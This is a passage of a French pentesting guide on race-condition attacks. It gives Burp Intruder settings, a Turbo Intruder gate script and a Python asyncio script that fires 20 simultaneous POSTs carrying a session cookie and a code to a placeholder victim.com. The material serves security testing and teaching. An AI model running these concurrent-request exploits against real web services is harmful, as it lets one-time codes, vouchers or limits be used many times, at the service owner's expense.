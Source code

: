 - **Répéteur :** Consultez les exemples de la section précédente.
- **Intrus :** Envoyez la **requête** à **Intrus**, définissez le **nombre de threads** à **30** dans le **menu Options** et sélectionnez comme charge utile **Null payloads** et générez **30.**
- **Turbo Intruder**
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
pipeline=False
)
a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
for i in range(len(a)):
engine.queue(target.req,a[i], gate='race1')
# open TCP connections and send partial requests
engine.start(timeout=10)
engine.openGate('race1')
engine.complete(timeout=60)

def handleResponse(req, interesting):
table.add(req)
```
- **Python - asyncio**
```python
import asyncio
import httpx

async def use_code(client):
resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
return resp.text

async def main():
async with httpx.AsyncClient() as client:
tasks = []
for _ in range(20): #20 times
tasks.append(asyncio.ensure_future(use_code(client)))

# Get responses
results = await asyncio.gather(*tasks, return_exceptions=True)

# Print results
for r in results:
print(r)

# Async2sync sleep
await asyncio.sleep(0.5)
print(results)

asyncio.run(main())
```
## **Méthodologie RC**

